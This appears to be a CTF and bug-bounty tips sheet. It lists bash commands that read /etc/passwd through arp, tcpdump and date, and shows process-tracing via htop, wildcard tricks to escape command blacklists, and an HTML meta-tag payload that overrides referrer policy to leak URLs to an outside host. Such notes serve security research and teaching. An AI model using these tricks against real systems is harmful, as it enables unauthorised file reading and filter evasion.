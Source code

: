 ## BASH/MISC

1. **Bash Commands that can do Local read file**
    * arp -v -f '/etc/passwd'
    * tcpdump -c 1 -vvvvvv -V '/etc/passwd'
    * date '+%s' -f '/etc/passwd'
    * od /etc/passwd 

2. **Using htop/top command to seek into other process memory**

    * htop/top command can be used to strace a process sys calls. Steps:
        * Run htop
            ```bash
            root@fc7e34d51219:/# htop
            ```
        * Goto process you need to see working of 
        * Press ‘s’ . It will show strace of the corresponding process

3. **The mysterious ^D(Ctrl+D)**

    * LIke ^C , ^D is also used to Exit a program but ^D sends an EOF on standard input to exit the program while ^C uses SIGINT to exit. 

        Run `perl` in interactive mode and see it in action

        ```bash

        root@fc7e34d51219:/ctf# perl -
        print(23);
        print("hello??");
        print("hmmm");
        ```
        If we use ^C it will exit normally without executing any, but using ^D will execute the commands. Now it's not only with perl, many command line utilities follow same.

4. **Bash blacklist escape**

    You might know the following trick:
    ```
    root@cb7435cd5cf3:/ctf# ls /root
    angr  bin ...

    root@cb7435cd5cf3:/ctf# ls /roo*
    angr  bin ...
    
    root@cb7435cd5cf3:/ctf# ls /roo?
    angr  bin ...
    ```
    The `*` or `?` is auto filling the input. Do you know we can also use other regex like
    ```
    root@cb7435cd5cf3:/ctf# ls /roo[a-z]
    angr  bin ...
    ```


## WEB

1. **HTML - Meta tag tricks**
    
    Meta tags can be used to override referrer policy
    ```php

    <?php 
      header("Referrer-Policy: no-referrer");
    ?>

    <html>
      <body>
          <meta name="referrer" content="unsafe-url">
          <img src="http://zeta2.free.beeceptor.com" >
      </body>
    </html>
    ```

    The referrer policy added by PHP will be ignored. So if we have HTML-injection we can basically override referrer policy.


2. **Meta tags redirect**
    We can use meta tags to redirect to different site

    ```html

    <meta http-equiv="refresh" content="0;URL='http://example.com/'" />
    ```

3. **Iframe: Override CSP In IFRAME's**

    * Lets say http://example.com has some CSP setting. 
    * Iframe also has a csp attribute which allows us to implement csp on the frame source site.
    
    ```html
    <iframe csp="script:none" src='example.com'>
    ```
    The CSP which is more strict (frame’s attribute or coming from src tag) will be chosen as CSP within iframe. More on https://w3c.github.io/webappsec-cspee/


## New Tools to improve Bug Bounty flow

* HTTP Parameter finding : [https://github.com/0xsapra/fuzzparam](https://github.com/0xsapra/fuzzparam)
* Logic bugs finding : [https://github.com/ngalongc/openapi_security_scanner](https://github.com/ngalongc/openapi_security_scanner)
